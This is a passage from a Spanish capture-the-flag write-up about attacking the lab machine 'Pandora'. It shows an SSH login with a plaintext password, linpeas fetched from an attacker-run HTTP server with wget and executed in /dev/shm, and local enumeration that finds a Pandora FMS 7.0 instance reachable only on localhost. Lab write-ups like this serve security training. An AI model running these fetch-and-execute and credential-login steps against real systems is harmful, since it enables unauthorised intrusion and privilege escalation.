 ```bash
ssh daniel@10.10.11.136
# Password: HotelBabylon23
```

Una vez adentro, desafortunadamente parece que daniel no tiene nada en su directorio personal, pero en home vemos el directorio matt que en su home tiene la flag de usuario, así que buscaremos la forma de escalar privilegios. Usaremos linpeas mandando el script desde nuestra máquina atacante.

```bash
# En la máquina atacante
python3 -m http.server 8000

# Desde la víctima
wget http://10.10.14.18:8000/linpeas.sh
mv linpeas.sh /dev/shm
cd /dev/shm
chmod +x linpeas.sh
./linpeas.sh | tee lin.log
```

## Enumeración web local

También en paralelo revisaremos las configuraciones del sitio Apache que están en `/etc/apache2/sites-enabled`. En este caso son dos: 

- 000-default.conf  
- pandora.conf

`000-default.conf` parece un servidor web estándar, escucha en 80 y aloja fuera de `/var/www/html`.

```bash
cat pandora.conf | grep -Pv "^\s*#" | grep .
```

Solo escucha en localhost y bajo el nombre del servidor `pandora.panda.htb`. Está alojado fuera de `/var/www/pandora`, y funcionando como matt. Matt es dueño de la carpeta pandora, pero cualquier usuario puede navegar hasta ella y leer:

```bash
daniel@pandora:/var/www$ ls -l
total 8
drwxr-xr-x 3 root root 4096 Dec  7 14:32 html
drwxr-xr-x 3 matt matt 4096 Dec  7 14:32 pandora
```

No hay lugares escribibles por daniel en pandora:

```bash
daniel@pandora:/var/www$ find pandora/ -writable
```

Mientras agregamos `pandora.panda.htb` al `/etc/hosts`, sabemos que tenemos una aplicación web oculta escuchando en localhost en el puerto 80. Volvemos a la salida de linpeas y en uno de los binary processes permissions vemos `/usr/bin/host_check`. Así que intentamos ejecutarlo como usuario y contraseña de 'daniel'. Como no finalizó, usamos Ctrl + C y en la salida vemos:

**Pandora FMS versión 7.0 NG.742_FIX_PERL202**
